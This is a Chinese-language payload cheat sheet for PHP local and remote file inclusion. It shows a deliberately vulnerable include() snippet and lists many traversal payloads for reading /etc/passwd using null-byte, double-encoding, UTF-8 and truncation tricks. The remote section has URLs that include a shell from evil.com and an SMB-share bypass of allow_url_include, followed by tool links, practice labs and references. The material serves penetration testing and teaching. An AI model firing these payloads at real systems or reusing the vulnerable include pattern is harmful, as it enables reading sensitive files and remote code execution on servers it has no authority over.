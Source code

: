 # 文件包含

> 文件包含漏洞是指Web应用程序中的一种安全漏洞，尤其是在使用PHP开发的应用程序中较为常见，攻击者可以通过该漏洞包含一个文件，通常是由于缺乏对输入输出的适当清理所致。这种漏洞可能导致一系列恶意活动，包括代码执行、数据窃取和网站篡改。

## 概述

- [工具](#工具)
- [本地文件包含](#本地文件包含)
    - [空字节](#空字节)
    - [双重编码](#双重编码)
    - [UTF-8 编码](#utf-8-编码)
    - [路径截断](#路径截断)
    - [过滤器绕过](#过滤器绕过)
- [远程文件包含](#远程文件包含)
    - [空字节](#空字节-1)
    - [双重编码](#双重编码-1)
    - [绕过 allow_url_include](#绕过-allow_url_include)
- [实验室](#实验室)
- [参考文献](#参考文献)

## 工具

- [P0cL4bs/Kadimus](https://github.com/P0cL4bs/Kadimus) （2020年10月7日归档）- Kadimus 是一个用于检查和利用本地文件包含漏洞的工具。
- [D35m0nd142/LFISuite](https://github.com/D35m0nd142/LFISuite) - 完全自动化的本地文件包含漏洞利用工具（含反向Shell）和扫描器。
- [kurobeats/fimap](https://github.com/kurobeats/fimap) - Fimap 是一个小巧的Python工具，可以自动查找、准备、审计、利用以及搜索本地和远程文件包含漏洞。
- [lightos/Panoptic](https://github.com/lightos/Panoptic) - Panoptic 是一个开源渗透测试工具，通过路径遍历漏洞自动搜索和检索常见的日志和配置文件。
- [hansmach1ne/LFImap](https://github.com/hansmach1ne/LFImap) - 本地文件包含漏洞发现与利用工具。

## 本地文件包含

**文件包含漏洞** 应与 **路径遍历** 区分开来。路径遍历漏洞允许攻击者访问一个文件，通常利用目标应用程序实现的“读取”机制，而文件包含将导致任意代码的执行。

考虑一个基于用户输入包含文件的PHP脚本。如果未进行适当的清理，攻击者可以操纵 `page` 参数以包含本地或远程文件，从而导致未经授权的访问或代码执行。

```php
<?php
$file = $_GET['page'];
include($file);
?>
```

在以下示例中，我们包含 `/etc/passwd` 文件，请参阅 `目录与路径遍历` 部分以了解更有趣的文件。

```powershell
http://example.com/index.php?page=../../../etc/passwd
```

### 空字节

:warning: 在低于PHP 5.3.4的版本中，我们可以用空字节（`%00`）终止。

```powershell
http://example.com/index.php?page=../../../etc/passwd%00
```

**示例**: Joomla! 组件 Web TV 1.0 - CVE-2010-1470

```ps1
{{BaseURL}}/index.php?option=com_webtv&controller=../../../../../../../../../../etc/passwd%00
```

### 双重编码

```powershell
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

### UTF-8 编码

```powershell
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

### 路径截断

在大多数PHP安装中，超过 `4096` 字符的文件名会被截断，因此任何多余的字符都会被丢弃。

```powershell
http://example.com/index.php?page=../../../etc/passwd............[添加更多]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[添加更多]
http://example.com/index.php?page=../../../etc/passwd/./././././.[添加更多] 
http://example.com/index.php?page=../../../[添加更多]../../../../etc/passwd
```

### 过滤器绕过

```powershell
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

## 远程文件包含

> 远程文件包含（RFI）是一种漏洞类型，当应用程序包含远程文件时通常通过用户输入，但没有正确验证或清理输入时发生。

自PHP 5开始，默认配置下远程文件包含不起作用，因为 `allow_url_include` 已被禁用。

```ini
allow_url_include = On
```

大多数来自本地文件包含部分的过滤器绕过方法也可以用于远程文件包含。

```powershell
http://example.com/index.php?page=http://evil.com/shell.txt
```

### 空字节

```powershell
http://example.com/index.php?page=http://evil.com/shell.txt%00
```

### 双重编码

```powershell
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

### 绕过 allow_url_include

当 `allow_url_include` 和 `allow_url_fopen` 设置为 `Off` 时，在Windows系统上仍然可以使用 `smb` 协议包含远程文件。

1. 创建一个开放给所有人的共享文件夹。
2. 在文件 `shell.php` 中编写PHP代码。
3. 包含它 `http://example.com/index.php?page=\\10.0.0.1\share\shell.php`

## 实验室

- [Root Me - 本地文件包含](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion)
- [Root Me - 本地文件包含 - 双重编码](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion-Double-encoding)
- [Root Me - 远程文件包含](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)
- [Root Me - PHP - 过滤器](https://www.root-me.org/en/Challenges/Web-Server/PHP-Filters)

## 参考文献

- [CVV #1: 本地文件包含 - SI9INT - 2018年6月20日](https://medium.com/bugbountywriteup/cvv-1-local-file-inclusion-ebc48e0e479a)
- [利用PHP应用程序中的远程文件包含（RFI）漏洞并绕过远程URL包含限制 - Mannu Linux - 2019年5月12日](http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html)
- [PHP在什么条件下易受攻击？ - 2015年4月13日 - Andreas Venieris](http://0x191unauthorized.blogspot.fr/2015/04/is-php-vulnerable-and-under-what.html)
- [LFI 速查表 - @Arr0way - 2016年4月24日](https://highon.coffee/blog/lfi-cheat-sheet/)
- [测试本地文件包含 - OWASP - 2017年6月25日](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)
- [将LFI转换为RFI - Grayson Christopher - 2017年8月14日](https://web.archive.org/web/20170815004721/https://l.avala.mp/?p=241)